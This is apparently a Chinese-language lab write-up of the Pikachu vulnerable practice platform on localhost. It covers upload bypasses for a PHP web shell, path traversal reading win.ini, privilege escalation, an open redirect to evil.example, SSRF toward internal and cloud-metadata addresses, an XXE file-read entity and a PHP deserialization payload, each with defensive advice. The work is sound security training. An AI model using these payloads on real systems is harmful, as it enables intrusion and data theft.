原理：后端只依赖前端 JS 校验扩展名，攻击者禁用 JS 或直接改包，把 .php 文件上传即可绕过。
测试：选择 shell.php 上传，前端校验被绕过，服务端直接保存到 upload/ 目录。

2. 文件上传：MIME / Content-Type 绕过
原理：服务端仅校验 Content-Type（MIME）而不校验扩展名 / 内容，抓包把 Content-Type 改成 image/png 即可上传 PHP 文件。
测试：上传 shell.php，用 Burp 拦截把请求中的 Content-Type 改为 image/png，服务端放行。

getimagesize 校验，可用图片马绕过；配合文件包含即可 Getshell。3. 文件下载：任意文件下载
原理：下载接口用用户可控的 filename 参数直接拼接路径，未做白名单 / 穿越过滤，可用 ../ 读取任意文件。
测试：把 filename 换成穿越路径，读取系统文件 win.ini：
http://127.0.0.1:8443/pikachu/vul/unsafedownload/execdownload.php?filename=../../../../Windows/win.ini
防护方法防御建议
- 上传白名单：服务端校验扩展名、MIME、文件头，只允许安全类型；上传后重命名。
- 上传目录禁执行：关闭 upload 目录的脚本执行权限，限制文件大小。
- 下载白名单：用固定文件 ID / 白名单映射，不直接使用用户传入的路径。
- 过滤穿越字符：拦截
../、绝对路径，或用basename()只取文件名。 - 最小权限：敏感文件放在非 Web 目录，Web 服务以低权限运行。
越权模块2 题 + 防护
越权（Over Permission）是指用户访问了超出自身权限范围的功能或数据，分为水平越权和垂直越权。核心是服务端没有对“当前用户能否操作该资源”做校验。（配图为演示示意图）
1. 水平越权
原理：同一权限级别的用户可以访问其他用户的数据。通过修改请求里的身份参数（如 username、id），就能越界查看或修改别人的资料。
测试：把请求中的 username=peter 改成 username=lili，即以 peter 的登录态看到了 lili 的个人信息。

2. 垂直越权
原理：低权限用户访问高权限功能。例如普通用户直接请求管理员接口（增删改用户），如果服务端只在前端隐藏菜单、接口不做权限校验，就会越权成功。
测试：用普通账号登录后，直接访问 / 提交管理员专属的 URL 或接口。
防护方法防御建议
- 服务端鉴权：每个请求都校验当前用户身份与权限，不信任前端传入的角色 / 身份。
- 校验资源归属：操作数据前确认该记录属于当前用户。
- 基于角色的访问控制：用 RBAC 统一管理接口权限。
- 最小权限：账号只授予完成任务所需的最小权限。
目录遍历模块1 题 + 防护
目录遍历（Directory Traversal，也叫路径穿越）是指程序用用户可控的参数拼接文件路径且未过滤 ../，从而可以跳出限定目录、读取服务器上的任意文件。（配图为演示示意图）
1. 目录遍历读取任意文件
原理：文件读取接口把参数直接拼进路径，使用 ../ 可以逐级向上跳转，最终读取系统文件或源码。
http://127.0.0.1:8443/pikachu/vul/dir/dir_list.php?title=../../../../Windows/win.ini
防护方法防御建议
- 白名单：只允许读取指定目录下的文件。
- 过滤穿越字符：拦截
../、..\、绝对路径，或用basename()只取文件名。 - 规范化路径：拼接后用
realpath()校验是否仍在允许目录内。
敏感信息泄露模块1 题 + 防护
敏感信息泄露是指源码、备份文件、配置文件、注释、报错信息等本不该暴露的内容被外部获取，可能导致账号泄露，或为进一步攻击提供线索。（配图为演示示意图）
1. 常见泄露源
- 备份文件：
www.zip、config.php.bak、.swp等可被直接下载。 - 版本控制：误部署的
.git/、.svn/可还原源码。 - 调试信息：
phpinfo.php、详细报错堆栈暴露路径与配置。 - 前端注释：HTML / JS 注释里残留测试账号、密钥、内网地址。

防护方法防御建议
- 清理文件：删除备份、测试、
.git、phpinfo等无用文件。 - 关闭调试：生产环境关闭详细错误回显。
- 最小暴露：前端不写入敏感信息，配置文件放在非 Web 目录。
不安全的 URL 跳转模块1 题 + 防护
不安全的 URL 跳转（Open Redirect）是指跳转目标由用户参数决定且未做校验，攻击者可构造链接让用户在“看起来是本站”的情况下跳转到钓鱼站点。（配图为演示示意图）
1. 跳转到任意站点
原理：跳转接口直接读取 url 参数并 header("Location: $url")，没有校验目标域名。
http://127.0.0.1:8443/pikachu/vul/urlredirect/urlredirect.php?url=http://evil.example/phish
防护方法防御建议
- 白名单域名：只允许跳转到预先登记的可信域名。
- 站内相对路径：尽量只允许站内相对路径跳转。
- 提示确认：跳转外站时给出明确提示。
SSRF 模块1 题 + 防护
SSRF（服务端请求伪造，Server-Side Request Forgery）是指攻击者让服务器去请求其指定的 URL，从而访问内网服务、本机端口或云元数据等外部无法直接触达的资源。（配图为演示示意图）
1. 探测 / 访问内网
原理：接口把用户提供的 URL 作为请求地址（curl / file_get_contents），未限制目标，服务器就成了攻击者的“代理”。
常见目标：127.0.0.1、内网段（192.168.x.x、10.x.x.x）、云元数据 169.254.169.254，协议还可尝试 file://、gopher://、dict://。
http://127.0.0.1:8443/pikachu/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1:8080/admin
防护方法防御建议
- 协议 / 域名 / 端口白名单：只允许访问必要的外部地址。
- 禁止内网地址：解析后校验 IP，拒绝回环、内网、链路本地地址。
- 防 DNS 重绑定：解析与请求使用同一 IP，限制重定向。
- 最小权限：服务端发起请求的账号 / 网络权限最小化。
XXE 模块1 题 + 防护
XXE（XML 外部实体注入，XML External Entity）是指 XML 解析器允许引用外部实体，攻击者借此读取服务器文件、发起 SSRF 或造成 DoS。（配图为演示示意图）
1. 外部实体读取文件
payload：在 XML 中声明外部实体并引用它：
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]>
<foo>&xxe;</foo>
file:// 换成 http:// 还能发起 SSRF。防护方法防御建议
- 禁用外部实体：解析时关闭 DTD / 外部实体（如 PHP 的
libxml_disable_entity_loader(true)、Java 禁用外部通用实体）。 - 使用安全解析器：选择默认禁用 XXE 的库或显式配置。
- 限制输入：不接收不必要的 XML，优先使用 JSON。
反序列化模块1 题 + 防护
反序列化是指把序列化字符串还原为对象时，攻击者构造恶意数据触发对象的魔术方法（如 __wakeup、__destruct），进而执行危险操作甚至 Getshell。（配图为演示示意图）
1. PHP 反序列化
原理：unserialize() 处理用户可控数据时，会按字符串内容实例化对象并自动调用魔术方法，可能触发文件写入、命令执行等。
示例 payload：
O:1:"S":1:{s:4:"test";s:10:"<script>";}
防护方法防御建议
- 不反序列化不可信数据：优先使用 JSON 等纯数据格式。
- 白名单类：只允许反序列化预期的类（如
allowed_classes）。 - 签名校验：对序列化数据做完整性签名。
- 减少魔术方法风险：不在
__wakeup/__destruct中执行敏感操作。